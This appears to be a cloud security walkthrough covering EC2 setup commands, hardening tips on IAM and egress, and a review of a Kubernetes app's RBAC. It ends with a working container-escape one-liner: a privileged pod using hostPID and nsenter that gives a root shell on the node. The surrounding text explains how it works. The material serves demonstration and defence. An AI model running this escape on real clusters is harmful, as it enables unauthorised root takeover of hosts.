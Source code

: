 EC2 Instance Creation
```
aws ec2 run-instances \
  --image-id ami-07fe743f8d6d95a40 \
  --instance-type t2.micro \
  --subnet-id subnet-06f0cbd01b59f1b53 \
  --security-group-ids sg-01c640cca4b063fbd \
  --associate-public-ip-address \
  --key-name ppresto-ptfe-dev-key
```

Get the external IP to SSH to the new instance
```
aws ec2 describe-instances --query 'Reservations[].Instances[].[InstanceId, InstanceType, SubnetId, PublicIpAddress]' --output table
```
#### Recap
* Don't give ec2:* permissions
* ingress all is bad.  egress all opens you up to reverse shells too!
* Improvement area
Setup a VPC interface endpoint for com.amazonaws.region.s3. 
Access s3 through AWS privatelink instead of allowing all traffic outbound.
## Tasky Application - Verify RBAC

### Tasky image
Is the application running with cluster-admin privileges?
* Shell into the tasky app
* Review the Dockerfile
  * Chainguard - Lightweight, distroless, hardened images with SBOMs and signatures. NO shell, package mgr,  Less attack surface and chance of CVEs

### Tasky sidecar has cluster-admin
The tasky pod is running a sidecar container `network-multitool`.  To see if containers have 
cluster-admin privilages connect to the sidecar, install `kubectl`, and use it to **escape into the Working Node as root!**
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
```

Escape into the Node as **root** with kubectl
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
This one liner from Duffie Cooley spawns a new container named r00t based on alpine. The container is run in privileged mode ("privileged":true, so root gets all linux capabilities) "hostPID":true makes the container use the host's PID namespace (so the EKS Node) and the nsenter command is executing bin/bash with the context of another process (PID 1).
